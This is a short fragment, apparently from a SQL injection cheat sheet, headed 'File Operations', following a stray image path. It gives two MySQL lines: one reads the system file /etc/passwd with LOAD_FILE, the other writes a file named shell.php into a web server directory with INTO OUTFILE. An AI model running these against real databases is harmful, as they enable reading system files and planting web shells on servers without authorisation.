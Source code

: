 # File Operations

SELECT LOAD_FILE('/etc/passwd'), SELECT 'shell' INTO OUTFILE '/var/www/shell.php'